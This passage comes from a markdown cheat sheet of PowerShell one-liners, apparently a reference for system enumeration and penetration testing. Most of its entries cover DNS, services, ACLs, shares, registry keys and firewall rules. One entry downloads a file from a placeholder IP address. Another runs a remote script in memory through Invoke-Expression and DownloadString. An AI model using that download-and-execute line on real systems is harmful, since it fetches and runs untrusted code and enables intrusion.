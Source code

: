 	- `(Get-Content <file>).Split()  | Select-String -Pattern '^<word>'`
- **First N raw bytes of a file**
	- `(Get-Content <path> -Encoding byte)[0..N]`
- **Record A (IP address) of a domain**
	- `Resolve-DnsName <domain>`
- **DNS zone aging**
	- `Get-DnsServerZoneAging -Name <zone_name>`
- **All DNS records of a zone**
	- `Get-DnsServerResourceRecord -ZoneName <zone_name>`
- **Base64 encoding of a string**
	- `[Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($var))`
- **Base64 decoding of a string**
	- `[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($var))`
- **AppLocker policy**
	- `Get-AppLockerPolicy -Effective -Xml`
- **Service List**
	- `Get-Service`
	- `Get-WmiObject -Class Win32_Service -Filter "name='string'"`
- **DCOM application search with filter**
	- `Get-WmiObject -class "Win32_DCOMApplication" -Filter "AppId='{<APP ID VALUE>}'"`
- **Firewall rules**
	- `Get-NetFirewallRule`
- **Differences between files**
	- `Compare-Object -ReferenceObject $(Get-Content <ref_path_file>) -DifferenceObject $(Get-Content <diff_path_file>)`
- **Permissions on files and directories**
	- `Get-Acl <file/directory>`
- **Shares**
	- `Get-SmbShare`
- **Timezone**
	- `Get-TimeZone`
- **MD5 of a file**
	- ` Get-FileHash <pathfile> -Algorithm MD5`
- **Key of a register**
	- `Get-Item -Path '<path registry key>'`
- **Property of a registry key**
	- `Get-ItemProperty -Path '<path registry key>'`
- **Search key recursively**
	- `Get-ChildItem 'HKCU:\*' -Recurse -ErrorAction SilentlyContinue | findstr <filter>`
- **Download file**
	- `(New-Object System.Net.WebClient).DownloadFile('http://<IP>/<file>', '<output>')`
- **Download and Execute (no saving)**
	- `Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://<IP>/<file>')`
- **CMD command from powershell**
	- `cmd.exe /c "<command>"`
- **.NET versions installed**
	- `Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse | Get-ItemProperty -Name version -EA 0 | Where { $_.PSChildName -Match '^(?!S)\p{L}'} | Select PSChildName, version`

# CMD

